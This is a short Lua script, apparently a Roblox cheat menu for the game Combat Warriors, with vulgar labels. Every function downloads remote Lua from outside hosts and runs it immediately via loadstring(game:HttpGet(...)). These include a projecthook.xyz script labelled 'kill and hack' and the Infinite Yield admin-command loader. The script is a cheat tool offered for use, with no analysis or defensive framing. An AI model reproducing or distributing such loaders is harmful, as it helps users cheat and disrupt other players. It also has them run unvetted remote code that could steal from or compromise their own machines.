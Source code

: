 local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("Dick hub", "DarkTheme")

--main
local main = Window:NewTab("Combat Warriors")
local mainSection = main:NewSection("Combat Warriors dick hub")


mainSection:NewButton("dickhub combat warriors", "kill and hack you dick", function()
    loadstring(game:HttpGet("https://projecthook.xyz/scripts/new-free.lua"))()
end)


mainSection:NewButton("inf yeild", "use admin commands", function()
    loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()
end)
